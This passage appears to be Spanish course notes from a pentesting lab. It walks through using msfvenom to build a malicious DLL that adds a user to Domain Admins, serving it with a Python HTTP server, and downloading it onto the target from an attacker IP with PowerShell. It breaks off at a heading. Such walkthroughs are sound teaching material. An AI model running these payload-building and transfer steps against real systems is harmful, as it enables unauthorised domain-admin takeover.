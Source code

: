 ## Generar la DLL maliciosa con `msfvenom`

Ejemplo del curso:

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

* `msfvenom` — generador de payloads de Metasploit.
* `-p windows/x64/exec` — payload: ejecutar comando en Windows x64.
* `cmd='...'` — el comando que el payload ejecutará: en este caso `net group "domain admins" netadm /add /domain` añade el usuario `netadm` al grupo Domain Admins en el dominio (el usuario debe existir).
* `/add` Indica añadir el usuario al grupo especificado
* `/domain` Le dice a `net group` que la operación se haga en el controlador de dominio y no en la máquina local.
* `-f dll` — formato de salida: DLL.
* `-o adduser.dll` — archivo de salida.

Salida del ejemplo incluye mensajes informativos como tamaño del payload y confirmación de fichero guardado.

---

## Servir el archivo con un servidor HTTP simple

Comando mostrado:

```bash
python3 -m http.server 7777
```

* `python3 -m http.server 7777` — arranca un servidor HTTP estático en el puerto `7777` sirviendo el directorio actual.
* Útil para transferir `adduser.dll` al host objetivo desde la máquina atacante.

Salida típica muestra la IP que hace la petición y el archivo servido (ej. `GET /adduser.dll` 200).

---

## Descargar el fichero desde el target

Ejemplo en PowerShell:

```powershell
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

* `wget` en PowerShell es alias de `Invoke-WebRequest` o `curl` dependiendo de la versión.
* `-outfile` especifica el nombre local donde guardar el fichero descargado.

---

## Intento como usuario no privilegiado — error de acceso
